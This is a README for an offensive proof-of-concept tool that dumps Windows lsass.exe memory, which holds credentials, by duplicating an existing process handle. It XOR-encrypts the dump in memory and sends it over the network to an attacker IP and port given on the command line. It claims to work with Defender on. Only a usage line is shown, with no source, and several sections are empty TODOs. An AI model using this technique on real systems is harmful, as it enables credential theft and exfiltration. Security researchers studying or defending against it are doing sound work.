


# LsassDuplicateHandle

PoC showcasing how to dump lsass.exe by enumerating and duplicating an existing handle to the process.

Instead of saving the dump to the disk, it gets encrypted using XOR in memory and send to the attacker machine using Winsock.

Tested on Win10 + Win11 with Defender on.

TODO
## Usage
```.powershell
.\LsassDuplicateHandle <IP> <PORT>
```

## Showcase

### Victim 


### Attacker



## OPSEC

TODO